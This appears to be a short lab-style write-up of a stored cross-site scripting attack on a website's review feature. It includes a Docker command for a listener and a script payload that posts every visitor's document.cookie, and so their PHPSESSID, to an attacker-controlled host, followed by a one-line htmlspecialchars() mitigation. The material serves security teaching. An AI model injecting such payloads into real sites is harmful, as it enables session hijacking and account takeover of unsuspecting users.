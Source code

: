 # Get cookies of all users

This attack will exploit the reviews to grab the cookie of any user that visits the homepage.

## Steps

- Listen on your machine for connections

    `docker run -it --rm --name node-logger -p 8000:8000 -v ${PWD}:/usr/src/app -w /usr/src/app node:alpine node logger.js`

- Register an user on the website and login
- Create a review and inject malicious javascript code 

    ```javascript
    <script>
        fetch("http://127.0.0.1:8000", {
            method:'POST', 
            mode: 'no-cors', 
            body: document.cookie
        })
    </script>
    ```

- Every time a logged in user visits the homepage you receive their PHPSESSID cookie

## Mitigation

Wrap the received message text in [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
